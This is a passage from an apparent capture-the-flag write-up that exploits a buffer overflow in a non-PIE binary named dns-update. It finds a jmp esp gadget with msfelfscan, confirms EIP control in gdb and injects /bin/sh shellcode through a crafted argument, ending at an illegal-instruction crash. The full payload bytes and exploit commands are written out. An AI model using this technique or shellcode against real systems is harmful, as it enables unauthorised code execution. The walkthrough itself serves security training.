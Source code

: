 Ok, so why is this relevant? We saw previously that `dns-update` is `not a PIE`. Which means that the `instructions in dns-update will load at the same address every execution`. If we can find some instructions in dns-update that will redirect execution to ESP, using the address of those instructions as EIP will work across multiple executions. We use `msfelfscan` to look for instructions that will redirect execution to ESP. Examples of this are `call esp`; or `jmp esp`; or `push esp, ret`.

```
root@kali:~# msfelfscan -j esp dns-update
[dns-update]
0x080489eb jmp esp
```

We are lucky, we find a `"jmp esp"` at address `0x080489eb`. We should be able to use this address in EIP to redirect execution to the code stored in our input buffer immediately after EIP. We test this by changing the EIP value to `\xeb\x89\x04\x08` and replacing the `"IMATESP"` with `"\xcc\xcc\xcc\xcc"`. `"\xcc"` is the byte value for the mnemonic `int3` which is a software breakpoint and will cause our debugger to break when executed.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\xcc\xcc\xcc"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\xcc\xcc\xcc"'`
ip address part 4 is invalid

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff3f1 in ?? ()
(gdb) x/10i $pc
=> 0xbffff3f1:	int3
   0xbffff3f2:	int3
   0xbffff3f3:	int3
```

Success!, this time gdb broke with SIGTRAP, and EIP is `0xbffff3f1` which means that our first int3/software breakpoint was executed. Now that we are controlling EIP and getting execution of code that we control, let's insert some shellcode to spawn a shell. We won't go into writing shellcode, we will grab some shellcode that runs /bin/sh from the Internet. We found some shellcode that does this at http://shell-storm.org/shellcode/files/shellcode-752.php. We run dns-update in gdb again replacing the breakpoints (\xcc's) with the shellcode.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
ip address part 4 is invalid

Program received signal SIGILL, Illegal instruction.
0xbffff3f5 in ?? ()
(gdb) info reg
eax            0x0	0
ecx            0x0	0
edx            0x0	0
ebx            0xbfff00d4	-1073807148
esp            0xbffff3d4	0xbffff3d4
ebp            0x41414141	0x41414141
esi            0x41414141	1094795585
edi            0x0	0
eip            0xbffff3f5	0xbffff3f5
eflags         0x10206	[ PF IF RF ]
cs             0x73	115
ss             0x7b	123
```